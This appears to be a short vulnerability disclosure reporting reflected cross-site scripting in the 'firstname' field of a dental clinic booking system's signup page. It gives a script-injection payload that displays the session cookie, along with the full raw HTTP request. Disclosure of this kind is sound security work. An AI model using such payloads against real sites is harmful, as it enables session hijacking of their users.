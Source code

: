 # Dental Clinic Appointment Reservation System v1.0 has Cross-site scripting (reflected)

BUG_Author:niclo

Vulnerability File: /APR/signup.php

POST parameter 'firstname' exists XSS vulnerability

Payload:firstname=a"><script>alert(document.cookie)</script>&lastname=b&middlename=c&gender=Male&age=1&username=g&password=h&submit=&address=d&contact_no=e&email=f&code=j&cpassword=h

```
POST /APR/signup.php HTTP/1.1
Host: localhost
Content-Length: 174
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/APR/signup.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=k65tutg8g9o2qq8lc3vsi85rn7
Connection: close

firstname=a"><script>alert(document.cookie)</script>&lastname=b&middlename=c&gender=Male&age=1&username=g&password=h&submit=&address=d&contact_no=e&email=f&code=j&cpassword=h
```

print cookie successfully

![image](https://github.com/nightcloudos/picture/blob/main/cookie.png)
